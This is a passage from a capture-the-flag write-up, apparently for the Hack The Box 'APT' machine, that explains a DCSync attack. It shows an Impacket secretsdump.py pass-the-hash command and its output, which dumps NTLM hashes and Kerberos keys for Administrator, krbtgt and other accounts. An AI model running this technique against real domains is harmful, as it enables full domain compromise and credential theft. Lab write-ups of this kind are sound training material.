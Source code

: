  APT$:d167c3238864b12f5f82feae86a7f798


### Performing DCSync to get the administrator NTLM hash

Q. First of all what is a DC Sync attack?<br>
Ans. Impacket's secretsdump.py works in the following way: <br>

Hey Domain Controller I am another domain controller, inorder to join the domain we need to sync passwords so send me all the hashes.This is called a DC Sync attack.



```shell
┌──(sid㉿kali)-[/opt/Responder] 
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py htb.local/APT\$@apt.htb -hashes aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798                                                                                                       
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation                                                                               
                                                                                                                                       
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                     
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
krbtgt:des-cbc-md5:f8c26238c2d976bf
henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
henry.vinson:des-cbc-md5:73b6f71cae264fad
henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
...
...
...
```
